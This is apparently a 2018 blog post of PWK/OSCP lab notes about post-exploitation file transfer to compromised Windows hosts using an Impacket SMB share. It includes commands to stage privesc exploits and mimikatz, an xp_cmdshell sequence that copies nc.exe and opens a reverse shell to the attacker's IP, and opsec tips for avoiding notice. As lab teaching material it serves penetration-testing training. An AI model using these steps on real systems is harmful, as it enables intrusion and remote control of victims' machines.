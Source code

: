 

# PWK Notes: Post-Exploitation Windows File Transfers with SMB

#pwk #oscp #smb #impacket #exfil #upload Oct 11, 2018






[PWK Notes: Post-Exploitation Windows File Transfers with SMB](#)




Moving files to and from a compromised Linux machine is, in general,
pretty easy. You've got nc, wget, curl, and if you get really desperate,
base64 copy and paste. Windows, is another issue all together.
PowerShell makes this somewhat easier, but for a lot of the PWK labs,
the systems are too old to have PowerShell. The course material goes
over a few ways to achieve this, but they don't cover my favorite - SMB.
This may be less realistic in an environment where you have to connect
from a victim machine back to your attacker box over the public internet
(where SMB could be blocked), but for environments like PWK labs and HTB
where you are vpned into the same LAN as your targets, it works great.

## Overview

The goal here is to get easy file transfer to and from a compromised
Windows host. To do this, we'll create an SMB share on our local box,
and then connect to that share from the compromised Windows host. From
there, we can copy files into the shared folder on either host, and then
access them on the other host.

## Server

### Installation

The Impacket tool set comes pre-installed on Kali. If you don't have it
for some reason, you can install it with `apt install python-impacket`.
You can also clone the Secure Auth Corp [Impacket git
repo](https://github.com/SecureAuthCorp/impacket) if you want the most
up to date version.

### Starting the Server

To get the server up and running on our local box, simple enter the
following syntax:



    # impacket-smbserver.py shareName sharePath



-   `shareName` - can be anything you want, but you'll need to know this
    in order to connect back to the share
-   `sharePath` - the folder you want shared

### Example

For example, I keep a tools directory with a bunch of common stuff I
might need as I work though my labs:



    root@kali# ls tools/
    25912.exe              cachedump.exe  lonelypotato.exe  ms11-046.exe  MS14-002.exe      MS14-070.exe  nc.exe     PwDump.exe        wce32.exe   windows-privesc-check2.exe
    37049-32.exe           ff.exe         mimikatz          MS11-046.exe  MS14-070          MS14-070.rar  plink.exe  rottenpotato.exe  wce64.exe   winx86_meterpreter_80.exe
    accesschk-2003-xp.exe  fgdump.exe     mimikatz.exe      MS13-053.exe  MS14-070_adduser  nc64.exe      Privesc    sysinternals      whoami.exe  winx86_stageless_shell_80.exe



Others like to create an smb directory for each target and drop the
necessary files into it.

Then I can share this directory as follows:



    root@kali# impacket-smbserver smb tools/
    Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

    [*] Config file parsed
    [*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
    [*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
    [*] Config file parsed
    [*] Config file parsed
    [*] Config file parsed



## Client

### Syntax

From the Windows host, we need to use the build in `net use` command to
connect to our shared drive. Here's three examples of the syntax:



    C:\>net use
    C:\>net use \\[host]\[share name]
    C:\>net use /d \\[host]\[share name]



The first command will list all currently connected shares. The second
will create a connection to the named shared at the given host (in our
case, typically an IP address). The third command will close that
connection.

Once that runs, you can reference the share by it's full UNC path.

### Examples

#### With Shell

Let's say we wanted to copy a privesc binary to the host. We could do
the following.

Connect to the share:



    C:\>net use \\10.11.0.XXX\smb
    net use \\10.11.0.XXX\smb
    The command completed successfully.



Copy the file:



    C:\WINDOWS\Temp>copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe
    copy \\10.11.0.XXX\smb\ms11-046.exe \windows\temp\a.exe
            1 file(s) copied.



#### To Get Shell From RCE

In a different case, I only had access to a MySQL database, and wanted
to get a full shell. I used `xp_cmdshell` to map my drive, copy nc to
the host, and run it:



    1> xp_cmdshell 'net use \\10.11.0.XXX\smb'
    2> go
            output
            ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
            The command completed successfully.
            NULL
            NULL
    (return status = 0)

    1> xp_cmdshell 'copy \\10.11.0.XXX\smb\nc.exe \windows\temp\nc.exe'
    2> go
            output
            ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
                    1 file(s) copied.
                    NULL
    (return status = 0)

    1> xp_cmdshell '\windows\temp\nc.exe -e cmd.exe 10.11.0.XXX 443'
    2> go



## Opsec Notes

### Locally

When you run this server, you've created an unauthenticated share on the
network that anyone can read and write to. That's why it's important not
to share anything sensitive (like your notes directory), as someone
could mess with or delete them.

It's also a good idea to take down the share when you're not using it.

You will be able to tell when a new host connects to your share, and
when they disconnect:



    [*] Incoming connection (10.11.1.X,3187)
    [*] AUTHENTICATE_MESSAGE (\,USERNAME)
    [*] User \USERNAME authenticated successfully
    [*] :::00::4141414141414141
    [*] Closing down connection (10.11.1.5,3187)
    [*] Remaining connections []



### On Target

There is an option to `net use` to allow you to reference a connected
share by a new drive letter. To do this, just run:



    C:\>net use p: \\10.11.0.X\smb



From there, you can go to that drive and it's easier to interact with.
It's also very unsafe opsec. A user on the box is unlikely to see a
mapped share, but might very well notice a new drive letter. The same
goes for others in the labs with you attacking the same box. It's worth
the extra trouble to just use the UNC path.





